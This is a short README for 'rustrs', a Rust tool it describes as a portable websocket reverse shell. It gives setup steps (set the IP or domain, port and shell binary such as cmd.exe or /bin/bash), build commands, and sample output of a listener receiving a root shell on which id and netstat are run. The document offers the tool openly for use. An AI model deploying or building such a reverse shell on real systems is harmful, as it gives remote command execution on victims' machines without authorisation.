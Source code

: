 # rustrs

portable rust based websocket reverse shell

**Compile**

- Update script: ip/domain, port, binary (cmd.exe, /bin/bash, etc)

```
root@kali:/opt/rustwsrs# cargo build
    Finished dev [unoptimized + debuginfo] target(s) in 0.02s
```

Build for target platform. 
- https://forge.rust-lang.org/release/platform-support.html

**Usage**

WebSocket Listener

```
root@kali:/opt/rustrs/target/debug# ./server 
waiting for new reverse websocket session..
new session started, connected.
$ id
uid=0(root) gid=0(root) groups=0(root)

$ netstat -pantwu
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:111             0.0.0.0:*               LISTEN      1/init              
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      28346/./server      

```

WebSocket Client (reverse shell)

```
root@kali:/opt/rustrs/target/debug# ./client 

```

Enjoy~

